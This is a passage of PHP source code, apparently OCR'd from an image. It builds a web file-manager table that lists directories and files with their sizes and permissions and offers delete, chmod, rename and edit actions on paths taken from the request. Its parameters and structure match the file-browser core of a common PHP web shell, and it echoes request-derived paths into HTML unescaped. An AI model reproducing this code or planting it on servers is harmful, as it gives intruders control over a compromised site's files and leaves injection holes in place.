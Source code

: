 foreach($scandir as $dir){
if(!is_dir("$path/$dir") || $dir == '.' || $dir == '..') continue;
echo "<tr>
<td><a href=\"?path=$path/$dir\">$dir</a></td>
<td><center>--</center></td>
<td><center>";
if(is_writable("$path/$dir")) echo '<font color="green">';
elseif(!is_readable("$path/$dir")) echo '<font color="red">';
echo perms("$path/$dir");
if(is_writable("$path/$dir") || !is_readable("$path/$dir")) echo '</font>';

echo "</center></td>
<td><center><form method=\"POST\" action=\"?option&path=$path\">
<select name=\"opt\">
<option value=\"\"></option>
<option value=\"delete\">Delete</option>
<option value=\"chmod\">Chmod</option>
<option value=\"rename\">Rename</option>
</select>
<input type=\"hidden\" name=\"type\" value=\"dir\">
<input type=\"hidden\" name=\"name\" value=\"$dir\">
<input type=\"hidden\" name=\"path\" value=\"$path/$dir\">
<input type=\"submit\" value=\">\" />
</form></center></td>
</tr>";
}
echo '<tr class="first"><td></td><td></td><td></td><td></td></tr>';
foreach($scandir as $file){
if(!is_file("$path/$file")) continue;
$size = filesize("$path/$file")/1024;
$size = round($size,3);
if($size >= 1024){
$size = round($size/1024,2).' MB';
}else{
$size = $size.' KB';
}

echo "<tr>
<td><a href=\"?filesrc=$path/$file&path=$path\">$file</a></td>
<td><center>".$size."</center></td>
<td><center>";
if(is_writable("$path/$file")) echo '<font color="green">';
elseif(!is_readable("$path/$file")) echo '<font color="red">';
echo perms("$path/$file");
if(is_writable("$path/$file") || !is_readable("$path/$file")) echo '</font>';
echo "</center></td>
<td><center><form method=\"POST\" action=\"?option&path=$path\">
<select name=\"opt\">
<option value=\"\"></option>
<option value=\"delete\">Delete</option>
<option value=\"chmod\">Chmod</option>
<option value=\"rename\">Rename</option>
<option value=\"edit\">Edit</option>
</select>
<input type=\"hidden\" name=\"type\" value=\"file\">
<input type=\"hidden\" name=\"name\" value=\"$file\">
<input type=\"hidden\" name=\"path\" value=\"$path/$file\">
<input type=\"submit\" value=\">\" />
</form></center></td>
</tr>";
}
echo '</table>
</div>';
}